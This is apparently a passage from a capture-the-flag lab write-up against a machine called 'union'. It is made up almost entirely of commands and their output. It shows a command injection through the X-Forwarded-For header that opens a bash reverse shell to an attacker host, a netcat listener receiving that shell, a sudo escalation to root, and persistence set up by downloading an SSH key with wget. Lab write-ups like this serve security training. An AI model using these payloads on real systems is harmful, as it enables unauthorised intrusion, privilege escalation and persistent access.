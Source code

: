 ```bash
GET /firewall.php HTTP/1.1
Host: 10.10.11.128
Cookie: PHPSESSID=ouf9s9d9qu01d13am6j8jul9gm
X-Forwarded-For: $(bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1")
```

```bash
$ rlwrap -cAr nc -nlvp 443  
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.128] 40268
bash: cannot set terminal process group (807): Inappropriate ioctl for device
bash: no job control in this shell
www-data@union:~/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```bash
www-data@union:~/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on union:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on union:
    (ALL : ALL) NOPASSWD: ALL
```

```bash
www-data@union:~/html$ sudo /bin/bash
sudo /bin/bash
python3 -c "import pty;pty.spawn('/bin/bash')"
root@union:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)
```

## persistence

```bash
$ cd ~/.ssh
$ python3 -m http.server 9090
Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
```

```bash
root@union:/var/www/html# cd /root

root@union:~# wget 10.10.14.6:9090/kali-rsa.pub
wget 10.10.14.6:9090/kali-rsa.pub
--2024-05-19 00:28:33--  http://10.10.14.6:9090/kali-rsa.pub
Connecting to 10.10.14.6:9090... connected.
HTTP request sent, awaiting response... 200 OK
Length: 91 [application/vnd.exstream-package]
Saving to: ‘kali-rsa.pub’

kali-rsa.pub        100%[===================>]      91  --.-KB/s    in 0s      

2024-05-19 00:28:33 (9.00 MB/s) - ‘kali-rsa.pub’ saved [91/91]
```
